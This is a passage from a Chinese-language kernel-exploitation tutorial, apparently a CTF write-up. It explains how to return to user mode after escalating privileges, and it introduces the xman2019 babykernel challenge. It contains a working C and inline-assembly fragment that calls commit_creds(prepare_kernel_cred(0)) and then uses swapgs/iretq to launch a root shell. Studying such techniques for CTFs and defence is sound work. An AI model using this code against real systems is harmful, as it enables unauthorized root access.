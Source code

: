 当后续进行了一系列特权操作提升权限 `如: commit_creds(prepare_kernel_cred(0))` 后，  
即可手动将存储的 ss、sp、rflags、cs push 到栈上，并且设置 rip 返回地址，最终调用 iretq

```c
void restore_stat()
{
	commit_creds(prepare_kernel_cred(0));
	asm(
		"pushq   %0;"
		"pushq   %1;"
		"pushq   %2;"
		"pushq   %3;"
		"pushq   $shell;"
		"pushq   $0;"
		"swapgs;"
		"popq    %%rbp;"
		"iretq;"
	::"m"(user_ss), "m"(user_sp), "m"(user_rflags), "m"(user_cs));
}
```

当调用 iretq 时，栈结构如下所示，iretq 按如下结构恢复各个寄存器的值

```stack
rsp:   rip    的值
       cs     的值
       rflags 的值
	   sp     的值
       ss     的值
```

### [](#header-3)题目 xman2019 babykernel

题目下载：[babykernel.zip](/image/kernelpwn/babykernel.zip)

首先启动该机器，在根目录下发现 flag，其权限为 -r--------，只有 root 用户能读取

![qwb](/image/kernelpwn/3.png)  
